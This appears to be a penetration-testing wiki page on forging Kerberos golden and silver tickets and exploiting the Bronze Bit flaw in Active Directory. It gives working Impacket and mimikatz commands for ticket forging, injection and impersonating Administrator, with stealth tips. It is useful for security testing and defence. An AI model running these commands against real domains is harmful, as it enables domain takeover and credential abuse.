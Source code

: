 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1558.001 and T1558.002
---
```


# Forged tickets

## Theory

Silver and golden tickets are forged Kerberos tickets that can be used with [pass-the-ticket](pass-the-ticket.md) to access services in an Active Directory domain.

* **Golden ticket**: The NT hash \(or AES key\) of the special account `krbtgt` can be used to forge a special TGT \(Ticket Granting Ticket\) that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access any resource within the AD domain.
* **Silver ticket**: The NT hash \(or AES key\) of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access that service

The **Bronze bit** vulnerability \(CVE-2020-17049\) introduced the possibility of forwarding service tickets when it shouldn't normally be possible \(protected users, unconstrained delegation, constrained delegation configured with protocol transition\).

![](../../../.gitbook/assets/kerberos-delegation.png)

🛠️ //TODO : MS14-068

## Practice

The following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).

{% hint style="info" %}
**Tip: convert ticket to UNIX &lt;-&gt; Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Golden ticket

{% hint style="warning" %}
In order to craft a golden ticket, testers need to find the `krbtgt`'s NT hash or AES key \(128 or 256 bits\). In most cases, this can only be achieved with domain admin privileges through a [DCSync attack](../credentials/dumping/dcsync.md). Because of this, golden tickets only allow lateral movement and not privilege escalation.
{% endhint %}

{% hint style="success" %}
Microsoft now uses AES 256 bits by default. Using this encryption algorithm \(instead of giving the NThash\) will be stealthier.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can be used for this attack.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

### Silver ticket

{% hint style="warning" %}
In order to craft a silver ticket, testers need to find the target service account's NT hash or AES key \(128 or 256 bits\).
{% endhint %}

{% hint style="success" %}
_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." \(_[_adsecurity.org_](https://adsecurity.org/?p=2011)_\)_
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket. Testers need to carefully choose the right SPN type \(cifs, http, ldap, host, rpcss\) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

### Bronze bit \(CVE-2020-17049\)

{% hint style="warning" %}
In order to exploit this vulnerability, attackers need to find a service able to delegate to another service \(see [Kerberos delegations](kerberos-delegations.md)\), and they need that first service account NT hash or AES key \(128 or 256 bits\).
{% endhint %}

For example with [constrained delegation](kerberos-delegations.md#constrained-delegations) set between a controlled service and a target one with protocol transition enabled and the target user being protected, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated/delegated account but it can be any user in the environment\).

The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

### 🛠️ MS14-068 \(CVE-2014-6324\)

//TODO

## References

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

{% embed url="https://adsecurity.org/?p=483" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-overview/" caption="" %}

